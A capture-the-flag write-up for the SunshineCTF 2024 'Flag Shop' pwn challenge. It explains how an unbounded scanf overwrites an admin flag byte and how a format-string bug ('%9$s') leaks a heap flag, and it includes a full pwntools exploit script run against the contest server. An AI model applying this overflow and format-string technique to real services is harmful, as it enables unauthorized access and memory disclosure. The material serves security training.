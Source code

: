 https://ctftime.org/event/2485

# Flag Shop (pwn)

Welcome to the SECURE shop, where your goal is to explore the platform and uncover the secrets hidden within. After creating a user account, you'll interact with different features of the system. However, the admin panel remains restricted, and your challenge is to figure out how to access it.

2024.sunshinectf.games 24001

## Analysis

`main` @ `0x16e0`
- calls `create_account` with memory from the stack
- uses `scanf("%s", local_2a)` to read 1 byte from the user
    - This allows us to supply any length payload without null bytes
    - This allows us to modify the memory passed to `create_account`
        - Notably this includes the admin flag

`create_account` @ `0x14bc`
- Reads user supplied data in a reasonable way
- Ensure that the byte at offset `0x18` is equal to zero
    - This is later checked for the value 1 to confirm the user is an admin

`load_panel` @ `0x15a1`
- Checks if the user is authorized by checking if the byte at offset `0x18` is not equal to 0
- Reads the flag into a buffer allocated on the heap
- calls `printf` on an attacker controlled format string

## Solution

1) Provide any random details for user registration
2) When selecting `1` or `load_panel` from the menu supply a payload such that
    - The first byte is `1` and we end up calling `load_panel`
    - We supply the format string `%9$s` to the `printf`
        - This allows `printf` to read the memory from the pointer on stack to heap memory which contains the flag
    - Ensure that the admin flag is set by writing `1` to the appropriate byte

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./flagshop", checksec=False)
context.binary = elf

p = remote("2024.sunshinectf.games", 24001)

p.sendline(b"smiley")
p.sendline(b"he/him")

payload = b"\x01\x00"
payload += b"A" * 8
payload += b"%9$s"
payload = payload.ljust(0x2a, b"\x01")
p.sendline(payload)

p.sendlineafter(b"1)", b"1")

p.readuntil(b"current user: ")
flag = p.readuntil(b"}").decode()

log.success(flag) # sun{c@n_st1ll_r3@d_off_the_he@p_fr0m_st@ck_po!nters!}

```

## Flag
`sun{c@n_st1ll_r3@d_off_the_he@p_fr0m_st@ck_po!nters!}`

smiley 2024/10/20
